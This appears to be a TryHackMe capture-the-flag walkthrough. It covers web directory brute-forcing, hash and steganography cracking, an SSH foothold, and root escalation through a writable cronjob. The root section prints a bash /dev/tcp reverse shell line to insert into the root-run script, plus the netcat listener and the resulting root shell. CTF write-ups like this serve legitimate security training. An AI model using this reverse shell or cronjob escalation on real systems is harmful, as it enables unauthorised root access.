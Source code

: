 # recon
nmap show us that there are 3 open port:
- 80 ngnix server
- 6498 ssh
- 65524 apache server

## port 80 ngnix 
I use gobuster to do recon the web server user
```console
$ gobuster dir -u http://$IP/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
here is what I found:
- /h______ (Status: 301)
  - /w______
- /index.html (Status: 200)
- /robots.txt (Status: 200)
The first flag is in one of the directory. Note that the flag is encoded. encode it and summit ur flag.
## port 65524 apache
Same as port 80, we use gobuster to directory brute forcing. In the meantime I was waiting for result from go buster. I looks around and find the 3rd flag. here is what I found with gobuster.
- /index.html (Status: 200)
- /robots.txt (Status: 200)
this is odd. but let go and check what we have. I found a encoded string hidden in `/index.html`. decode it and it will give you a hidden directory call `/n0th1__________`.

moreover, in robots.txt you will find a weird string:
```
User-Agent:a18672860d0510e5ab6699730763b250
```
I use hash analyzer to check which hash type is that. then using `hashcat` to crack it: let move back to `/n0th1__________` directory.

here you will find
```html
<img src="binarycodepixabay.jpg" width="140px" height="140px"/>
<p>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</p>
```
a picture which I guess that this picture might hiding something from us (steganography). I downloaded it and used `binwalk` to analyze the picture... didnt find anything. I then use `hexeditor` to analyze the picture. I was rigth about it, the picture include a hidden file. so I use `stegcracker` to crack it.

at this moment:
- hashcat is running
- stegcracker is running
- my laptop is screaming and burning...

back to `/n0th1__________`, this a some werid strings there too. THM give us a HINT that the string is a GOST Hash. use ur favorite search engines and find online hash cracking website. Boom! I got a password!!. 

**hint**: <details>I used this [site](https://md5hashing.net/hash/gost/)) to crack it</details>


I then stop my stegcracker. and run `steghide` to extrack a hidden file:
```console
kali@kali:~/THM$ steghide extract -sf index.jpeg 
Enter passphrase: 
wrote extracted data to "secrettext.txt".
```
At this point, we still missing flag 2. Base on what we found, the string that we found in *robots.txt* (User-Agent) should give us the flag. Since *rockyou.txt* contains only password, not thing like flag{soemthing}. Which is why my `hashcat` could not crack it. 


The solution was to find online hash cracking website. to gain 2nd flag. 
**hint:** 
<details> same site as GOST hash cracker.</details>

Back to the file we extracted from steghide
```console
kali@kali:~/THM$ cat secrettext.txt 
username:b____
password:
01101001 <and more>
```
note that password is in binary, decode it! now let ssh and get foothold on the victim machine.
# foot hold
let get user flag!!!
```console
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
<flaghere>
```
The hint said *User Flag But It Seems Wrong Like It`s Rotated Or Something*.... **Rotated**... Find out what it mean:
**hint:**
<details>ROT cipher</details>

# root
I tried to `sudo -l` but we dont have premission to do so. then I remember that it said in the room detail that *escalate your privileges through a vulnerable cronjob.* so lets do it!
```console
boring@kral4-PC:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
if you do not know what cronjob is, pls look it up. In short each 1 min a hidden bash script call `.mysecretcronjob.sh` is executed by root. the script is located at `/var/www/`. lucky the script is own by our current user which mean we have a permission to read and write the script.

The plan is modify the script to a reverse shell to gain root access. add this to the script
```sh
bash -i >& /dev/tcp/<kali ip>/6969 0>&1
```
now on your kali. open netcat and listen/wait for our reverse shell to be execute by cronjob as root:
```console
kali@kali:~$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.11.14.220] from (UNKNOWN) [10.10.111.241] 56080
bash: cannot set terminal process group (1741): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www#
```
now go grab root flag
**Hint**
<details>hidden...</details>
